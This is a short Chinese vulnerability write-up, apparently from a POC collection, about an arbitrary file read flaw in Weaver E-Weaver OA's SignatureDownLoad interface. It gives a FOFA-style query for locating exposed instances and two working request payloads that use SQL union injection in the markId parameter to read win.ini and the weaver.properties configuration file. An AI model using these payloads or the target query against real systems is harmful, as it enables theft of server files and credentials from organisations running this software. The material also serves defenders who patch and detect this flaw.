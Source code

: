 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Weaver </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-E-Weaver"</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1656689079056-8b37542f-8e1a-4558-a1b2-d863bbb2a136.png)

验证POC

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![img](../../../.vuepress/public/img/1656689121217-b38a805a-342b-48d1-9b86-9655dccef5cd.png)

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![img](../../../.vuepress/public/img/1656689196769-3dd2c9b1-43e6-4677-b0be-b170fba04a4b.png)